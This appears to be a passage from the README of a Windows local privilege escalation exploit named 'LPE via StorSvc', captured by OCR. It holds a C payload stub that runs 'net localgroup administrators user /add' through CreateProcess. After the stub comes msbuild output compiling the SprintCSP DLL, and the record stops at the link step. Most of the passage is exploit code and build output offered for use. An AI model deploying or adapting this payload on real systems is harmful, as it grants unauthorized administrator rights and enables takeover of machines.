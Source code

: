 ```

    // Replace all this code by your payload
    STARTUPINFO si = { sizeof(STARTUPINFO) };
    PROCESS_INFORMATION pi;
    CreateProcess(L"c:\\windows\\system32\\cmd.exe",L" /C net localgroup administrators user /add",
        NULL, NULL, FALSE, NORMAL_PRIORITY_CLASS, NULL, L"C:\\Windows", &si, &pi);

    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);

    return;
}

C:\tools\LPE via StorSvc\RpcClient>cd C:\tools\LPE via StorSvc\SprintCSP\

C:\tools\LPE via StorSvc\SprintCSP>msbuild SprintCSP.sln
MSBuild version 17.4.1+9a89d02ff for .NET Framework
Building the projects in this solution one at a time. To enable parallel build, please add the "-m" switch.
Build started 3/6/2023 9:24:55 PM.
Project "C:\tools\LPE via StorSvc\SprintCSP\SprintCSP.sln" on node 1 (default targets).
ValidateSolutionConfiguration:
  Building solution configuration "Debug|x64".
Project "C:\tools\LPE via StorSvc\SprintCSP\SprintCSP.sln" (1) is building "C:\tools\LPE via StorSvc\SprintCSP\SprintCS
P\SprintCSP.vcxproj" (2) on node 1 (default targets).
PrepareForBuild:
  Creating directory "x64\Debug\".
  Creating directory "C:\tools\LPE via StorSvc\SprintCSP\x64\Debug\".
  Creating directory "x64\Debug\SprintCSP.tlog\".
InitializeBuildStatus:
  Creating "x64\Debug\SprintCSP.tlog\unsuccessfulbuild" because "AlwaysCreate" was specified.
ClCompile:
  C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.34.31933\bin\HostX64\x64\CL.exe /c /ZI /JMC
  /nologo /W3 /WX- /diagnostics:column /sdl /Od /D _DEBUG /D _CONSOLE /D _WINDLL /D _UNICODE /D UNICODE /Gm- /EHsc /RTC
  1 /MDd /GS /fp:precise /Zc:wchar_t /Zc:forScope /Zc:inline /permissive- /Fo"x64\Debug\\" /Fd"x64\Debug\vc143.pdb" /ex
  ternal:W3 /Gd /TC /FC /errorReport:queue main.c
  main.c
C:\tools\LPE via StorSvc\SprintCSP\SprintCSP\main.c(111,5): warning C4013: 'StopDependentServices' undefined; assuming
extern returning int [C:\tools\LPE via StorSvc\SprintCSP\SprintCSP\SprintCSP.vcxproj]
C:\tools\LPE via StorSvc\SprintCSP\SprintCSP\main.c(25,25): warning C4244: 'initializing': conversion from 'ULONGLONG'
to 'DWORD', possible loss of data [C:\tools\LPE via StorSvc\SprintCSP\SprintCSP\SprintCSP.vcxproj]
C:\tools\LPE via StorSvc\SprintCSP\SprintCSP\main.c(173,9): warning C4033: 'StopDependentServices' must return a value
[C:\tools\LPE via StorSvc\SprintCSP\SprintCSP\SprintCSP.vcxproj]
C:\tools\LPE via StorSvc\SprintCSP\SprintCSP\main.c(187,9): warning C4033: 'StopDependentServices' must return a value
[C:\tools\LPE via StorSvc\SprintCSP\SprintCSP\SprintCSP.vcxproj]
C:\tools\LPE via StorSvc\SprintCSP\SprintCSP\main.c(163,25): warning C4244: 'initializing': conversion from 'ULONGLONG'
 to 'DWORD', possible loss of data [C:\tools\LPE via StorSvc\SprintCSP\SprintCSP\SprintCSP.vcxproj]
C:\tools\LPE via StorSvc\SprintCSP\SprintCSP\main.c(267): warning C4715: 'StopDependentServices': not all control paths
 return a value [C:\tools\LPE via StorSvc\SprintCSP\SprintCSP\SprintCSP.vcxproj]
Link:
  C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.34.31933\bin\HostX64\x64\link.exe /ERRORREPO
```